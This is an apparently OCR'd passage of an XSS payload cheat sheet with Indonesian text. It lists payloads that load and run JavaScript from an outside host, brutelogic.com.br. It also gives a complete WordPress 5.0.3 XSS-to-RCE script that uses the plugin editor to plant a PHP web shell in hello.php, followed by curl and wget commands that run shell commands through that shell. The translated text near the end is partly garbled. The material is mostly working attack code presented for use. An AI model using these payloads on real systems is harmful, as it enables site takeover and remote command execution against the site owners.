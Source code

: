           * (with fully loaded JQuery library)
    
       3. $.get('//brutelogic.com.br/0.php',r=>{write(r)})
    
          => Javascript-based (response must be javascript)
    
       4. with(document)body.appendChild(createElement('script')).src='//brutelogic.com.br/2.js'
    
          * (with fully loaded JQuery library)
    
       5. $.getScript('//brutelogic.com.br/2.js')

> Wordpress XSS to RCE (v5.0.3)

Gunakan itu sebagai skrip jarak jauh untuk dijalankan ketika admin Wordpress mendapat XSSed untuk membuat shell web.

Plugin "Hello Dolly" adalah target di sini (terlepas dari aktivasi) tetapi hampir semua plugin lainnya

dapat digunakan, mengubah file dan jalur yang sesuai (termasuk "wordpress" sebagai WP root).

       p = '/wp-admin/plugin-editor.php?';
    
       q = 'file=hello.php&plugin=hello.php';
    
       s = '<?=\`$_POST\[1\]\`;';
    
       a = new XMLHttpRequest();
    
       a.open('GET', p+q, 0);
    
       a.send();
    
       $ = 'nonce=' + /nonce" value="(\[^"\]*?)"/.exec(a.responseText)\[1\] +
    
       '&newcontent=' + s + '&action=edit-theme-plugin-file&' + q;
    
       b = new XMLHttpRequest();
    
       b.open('POST', p, 1);
    
       b.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    
       b.send($);
    
       b.onreadystatechange = function(){
    
       if (this.readyState == 4) fetch('/wp-content/plugins/hello.php');
    
       }

=> Jalankan perintah shell web di terminal seperti berikut ("id" sebagai contoh):

       $ curl DOMAIN/wp-content/plugins/hello.php -d 1=id
    
       $ wget -qO- DOMAIN/wp-content/plugins/hello.php --post-data 1=id

> Blind XSS Mailer

Gunakan sebagai skrip remote XSS blind yang menyimpan file PHP dan ubah $ menjadi dan $ header header

demikian. Diperlukan server surat yang berfungsi seperti Postfix.
